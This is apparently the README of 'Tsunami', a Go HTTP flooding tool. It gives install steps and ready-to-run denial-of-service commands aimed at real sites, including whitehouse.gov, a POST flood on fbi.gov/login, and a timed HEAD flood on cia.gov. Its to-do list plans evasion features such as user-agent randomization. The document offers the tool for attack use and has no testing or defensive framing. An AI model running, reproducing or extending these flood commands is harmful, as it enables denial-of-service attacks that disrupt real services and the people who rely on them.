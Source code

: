 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - Custom headers
 - Pretty display of attack stats
 - ???